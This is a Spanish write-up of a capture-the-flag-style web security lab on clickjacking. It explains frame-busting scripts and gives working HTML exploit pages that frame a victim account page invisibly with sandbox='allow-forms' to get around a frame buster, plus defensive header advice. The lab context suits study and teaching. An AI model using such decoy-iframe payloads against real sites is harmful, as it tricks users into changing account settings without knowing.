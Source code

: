 
## Frame busting scripts

Los ataques de clickjacking son posibles siempre que los sitios web puedan enmarcarse. Por lo tanto, las técnicas preventivas se basan en restringir la capacidad de enmarcado de los sitios web. Una protección común del lado del cliente que se aplica a través del navegador web es el uso de scripts para romper marcos o frame busting. Estos pueden implementarse a través de complementos o extensiones JavaScript propietarios del navegador, como NoScript. Los scripts suelen estar diseñados para que realicen algunos o todos los siguientes comportamientos:

- Comprobar y garantizar que la ventana de la aplicación actual sea la ventana principal o superior.
- Hacer visibles todos los marcos.
- Evitar que se haga clic en marcos invisibles.
- Interceptar y señalar posibles ataques de clickjacking al usuario.

Las técnicas de eliminación de marcos suelen ser específicas de cada navegador y plataforma y, debido a la flexibilidad del HTML, los atacantes suelen poder eludirlas. Dado que los eliminadores de marcos son JavaScript, la configuración de seguridad del navegador puede impedir su funcionamiento o de hecho, es posible que el navegador ni siquiera sea compatible con JavaScript. Una solución eficaz contra los eliminadores de marcos es utilizar el atributo iframe `sandbox` de HTML5. Cuando se configura con los valores `allow-forms` o `allow-scripts` y se omite el valor `allow-top-navigation`, el script rompedor de marcos puede neutralizarse, ya que el iframe no puede comprobar si se trata o no de la ventana superior:

```c
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Los valores `allow-forms` y `allow-scripts` permiten las acciones especificadas dentro del iframe, pero la navegación de nivel superior está desactivada. Esto inhibe los comportamientos de frame busting, al tiempo que permite la funcionalidad dentro del sitio de destino.

## Lab: Clickjacking with a frame buster script

![20251005172938.png](20251005172938.png)

En este laboratorio se necesita cambiar el correo el usuario victima.

![20251005173645.png](20251005173645.png)

Por lo que primero, debemos entender que se tiene un `input` en el cual debe contener el valor o el email del atacante. Lo que se hizo fue poner en el url `email=attacker@email.com` y este es reflejado en nuestro input.

```c
https://0a13003304fc926e801a037c006700c3.web-security-academy.net/my-account?email=seven@seven.com
```

![20251005173703.png](20251005173703.png)

Ahora podemos construir nuestro iframe malicioso.

```html
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 600px;
            opacity: 30%;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a13003304fc926e801a037c006700c3.web-security-academy.net/my-account?email=seven@seven.com"></iframe>
</body>
</html>
```

Al ejecutar nuestro exploit vemos que este no da un un mensaje de `this page cannot be  framed`  
![20251005173952.png](20251005173952.png)

Esto puede ocurir por varios motivos:

 Encabezados HTTP
- X-Frame-Options: puede estar en:
	- `DENY` → no se puede mostrar en ningún `<iframe>`.
	- `SAMEORIGIN` → solo se puede mostrar en un `<iframe>` si el sitio padre tiene el mismo dominio.

`Content-Security-Policy`: frame-ancestors → define explícitamente qué orígenes pueden embeber la página. Ejemplo:

```c
Content-Security-Policy: frame-ancestors 'self' https://trusted.com;
```

Si la página tiene cualquiera de esos, el navegador bloquea la carga y te muestra algo como “This page cannot be framed”.

En estos casos agregamos un `sandbox="allow-forms"`

- https://www.w3schools.com/tags/att_iframe_sandbox.asp

![20251005174211.png](20251005174211.png)

Luego podremos modificar la posicion de nuestro `<div>` para que cuandre bien junto al boton.

```html
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 30%;
            z-index: 2;
        }
        div {
            position:absolute;
            top:470px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a13003304fc926e801a037c006700c3.web-security-academy.net/my-account?email=seven@seven.com" sandbox="allow-forms"></iframe>
</body>
</html>
```

Cambiamos a ` opacity: 0.00001;` y enviamos a la victima.


### Qué hace `sandbox` y por qué esos scripts se neutralizan

El atributo `sandbox` aplica varias restricciones al documento embebido:

- **Sin `allow-top-navigation`**: el iframe **no puede** navegar la `top window`. Cualquier intento de `window.top.location = ...` será bloqueado (o lanzará excepción) y por lo tanto el frame-buster no puede forzar la navegación superior.
    
- **Sin `allow-same-origin`** (valor por defecto cuando pones `sandbox`): el iframe obtiene un _unique opaque origin_, así que no comparte origen con su recurso original; muchas operaciones entre frames quedan prohibidas por política de mismo origen.
    
- **Si además no permites `allow-scripts`**, los scripts ni siquiera corren; si permites `allow-scripts` pero no `allow-top-navigation`, los scripts pueden ejecutarse dentro del iframe pero siguen sin poder navegar el top.

por eso:

```c
<iframe src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

neutraliza la mayoría de _frame-busters_: el iframe permite enviar formularios (`allow-forms`) pero **no** puede tocar la `top` (no `allow-top-navigation`) y normalmente los scripts del frame tampoco pueden correr si no pones `allow-scripts`. Incluso si permites scripts (`allow-scripts`) mientras **no** das permiso para top navigation, los intentos de “salir” seguirán fallando.

### Importante — cuándo `sandbox` NO ayuda

- **Encabezados HTTP**:
    - `X-Frame-Options: DENY` / `SAMEORIGIN` y `Content-Security-Policy: frame-ancestors` son impuestos por el navegador _antes_ de ejecutar JS. Si la página objetivo usa esos encabezados, **no** podrás embeberla en casi ningún navegador — el `sandbox` **no** los anula.
    - En otras palabras: `sandbox` puede neutralizar _scripts_ de busting, pero **no** permite evadir protecciones basadas en encabezados (que son la solución correcta del lado servidor).
- **Si añades `allow-top-navigation` o `allow-top-navigation-by-user-activation`**: entonces le das permiso explícito para navegar el top y el frame-buster puede funcionar otra vez.
- **Si añades `allow-same-origin` + `allow-scripts`**: el iframe recupera su origen y scripts totalmente funcionales; combinado con `allow-top-navigation` te quitas todas las barreras — cuidado.

### Resumen práctico / recomendaciones

- **Para protegerte contra clickjacking (servidor):** usa `Content-Security-Policy: frame-ancestors 'self'` (moderno) o `X-Frame-Options` como respaldo. Esto es más fiable que depender solo de scripts cliente.
- **Para embeber contenido de terceras partes de forma segura (cliente/padre):** usar `sandbox` sin `allow-top-navigation` ni `allow-same-origin`. Concede solo lo mínimo (por ejemplo `sandbox="allow-forms"` si solo necesitas que envíen formularios).
- **Si necesitas scripts dentro del iframe pero quieres evitar que manipulen top:** pon `allow-scripts` **pero no** `allow-top-navigation` ni `allow-same-origin`. Ten en cuenta límites (cross-origin restrictions) y que algunos frame-busters siguen intentándolo (postMessage, etc.).
- **Comprobación rápida (devtools / curl):** revisa si la página responde con `X-Frame-Options` o `Content-Security-Policy`. Si existen, el navegador impedirá el framing aunque uses `sandbox`.